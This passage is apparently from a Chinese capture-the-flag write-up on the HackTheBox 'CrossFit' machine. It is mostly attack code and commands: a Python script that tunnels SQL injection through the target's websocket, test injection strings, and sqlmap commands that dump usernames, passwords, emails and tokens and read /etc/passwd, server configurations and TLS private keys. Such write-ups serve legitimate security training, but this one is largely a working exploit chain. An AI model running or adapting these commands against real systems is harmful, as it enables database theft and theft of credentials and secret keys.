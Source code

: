     
    
    from websocket import create_connectionimport refrom http.server import BaseHTTPRequestHandler, HTTPServerfrom urllib.parse import unquoteimport threadingfrom socketserver import ThreadingMixIn  
    hostname = "localhost"serverport = 9000  
    def xt(msg):    matches = re.findall(r'token":"(.*?)"', msg)    return matches[0]  
    def send_msg(msg):    resp = ""    ws = create_connection("ws://gym.crossfit.htb/ws")    resp =  ws.recv()    cur_token = xt(resp)    msg = unquote(msg)    msg = msg.replace('"', "'")    d = '{"message":"available","params":"'+msg+'","token":"' + cur_token + '"}'    print(d)    ws.send(d)    resp = ws.recv()    #print(resp)    matches = re.findall(r'message":"(.*?)"', resp)    print(matches[0])    return matches[0]  
    #send_msg("1 and 2=2-- -")#send_msg("1 and 'a'='a'-- -")#exit(0)  
    class Handler(BaseHTTPRequestHandler):  
        def do_GET(self):        self.send_response(200)        param = self.path[5:]        self.send_header('Content-Type', 'text')        self.end_headers()        resp = send_msg(param)        self.wfile.write(bytes(resp, "utf-8"))  
    class ThreadingSimpleServer(ThreadingMixIn, HTTPServer):    pass  
    def run():    server = ThreadingSimpleServer(('0.0.0.0', 9000), Handler)  
        try:        server.serve_forever()    except KeyboardInterrupt:        pass  
    if __name__ == '__main__':    run()

期间经过反复测试、修改，具体过程不在赘述，大家看脚本就明白了。运行结果截图：

![](https://gitee.com/fuli009/images/raw/master/public/20210811175824.png)看下payload：

![](https://gitee.com/fuli009/images/raw/master/public/20210811175825.png)

  *   *   *   *   *   *   *   *   * 

    
    
    sqlmap -u http://127.0.0.1:9000/?id=1  --dbs --level 5 --risk 3  
    sqlmap -u http://127.0.0.1:9000/?id=1  --level 5 --risk 3 -D "employees" -T employees -C username --dump  
    sqlmap -u http://127.0.0.1:9000/?id=1  --level 5 --risk 3 -D "employees" -T employees -C password --dump  
    sqlmap -u http://127.0.0.1:9000/?id=1  --level 5 --risk 3 -D "employees" -T employees -C email --dump  
    sqlmap -u http://127.0.0.1:9000/?id=1  --level 5 --risk 3 -D "employees" -T employees -C email,token --dump --fresh-queries --threads 10

![]()

![](https://gitee.com/fuli009/images/raw/master/public/20210811175826.png)这里还可以读取文件，后面渗透需要用到；

![](https://gitee.com/fuli009/images/raw/master/public/20210811175827.png)

  *   *   *   *   *   *   *   * 

    
    
    sqlmap -u http://127.0.0.1:9000/?id=1  --level 5 --risk 3 -D "crossfit" -T "membership_plans" -C "password" --file-read /etc/httpd.confsqlmap -u http://127.0.0.1:9000/?id=1  --level 5 --risk 3 -D "crossfit" -T "membership_plans" -C "password" --file-read /etc/passwdsqlmap -u http://127.0.0.1:9000/?id=1  --level 5 --risk 3 -D "crossfit" -T "membership_plans" -C "password" --file-read /var/unbound/etc/unbound.confsqlmap -u http://127.0.0.1:9000/?id=1  --level 5 --risk 3 -D "crossfit" -T "membership_plans" -C "password" --file-read /var/unbound/etc/tls/unbound_server.keysqlmap -u http://127.0.0.1:9000/?id=1  --level 5 --risk 3 -D "crossfit" -T "membership_plans" -C "password" --file-read /var/unbound/etc/tls/unbound_control.pemsqlmap -u http://127.0.0.1:9000/?id=1  --level 5 --risk 3 -D "crossfit" -T "membership_plans" -C "password" --file-read /var/unbound/etc/tls/unbound_control.keysqlmap -u http://127.0.0.1:9000/?id=1  --level 5 --risk 3 -D "crossfit" -T "membership_plans" -C "password" --file-read /var/unbound/etc/tls/unbound_server.pemsqlmap -u http://127.0.0.1:9000/?id=1  --level 5 --risk 3 -D "crossfit" -T "membership_plans" -C "password" --file-read /etc/relayd.conf
